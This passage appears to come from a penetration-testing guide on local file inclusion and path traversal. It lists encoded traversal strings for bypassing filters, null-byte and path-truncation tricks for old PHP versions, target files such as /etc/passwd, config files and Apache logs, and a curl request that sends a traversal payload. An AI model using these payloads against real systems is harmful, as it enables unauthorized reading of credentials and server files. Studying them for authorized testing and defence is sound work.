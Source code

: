 ### Problem: Path traversal not working
```bash
# Issue: ../ sequences being filtered
# Check 1: Try different encodings
../              # Basic
..%2f            # URL encoded
..%252f          # Double URL encoded
%2e%2e%2f        # Full URL encoded

# Check 2: Try different traversal patterns
....//           # Bypass non-recursive filtering
..\/             # Windows-style paths
```

### Problem: File not found errors
```bash
# Issue: Files exist but not accessible via LFI
# Check 1: Try absolute paths
/etc/passwd      # Absolute path
file:///etc/passwd  # File protocol

# Check 2: Try different file locations
# Linux alternatives:
/usr/local/etc/passwd
/opt/local/etc/passwd

# Check 3: Try application-specific paths
./config/database.php
../config/config.php
../../config.inc.php
```

### Problem: Application adding file extensions
```bash
# Issue: Application adds .php or .txt to input
# Check 1: Null byte injection (PHP < 5.3)
/etc/passwd%00

# Check 2: Path truncation (PHP < 5.5)
/etc/passwd/./././././././.[repeat ~2048 chars]

# Check 3: Try files with expected extensions
/var/log/apache2/access.log  # .log extension
/etc/apache2/sites-available/000-default.conf  # .conf extension
```

---

## Tools and Resources

### Manual Testing Tools
```bash
# Basic curl testing
curl "http://target.com/index.php?file=../../../../etc/passwd"

# Burp Suite for parameter testing
# - Use Intruder for payload fuzzing
# - Use Repeater for manual testing
# - Use Spider to find LFI parameters

# Browser developer tools
# - Network tab for parameter analysis
# - View source for hidden parameters
```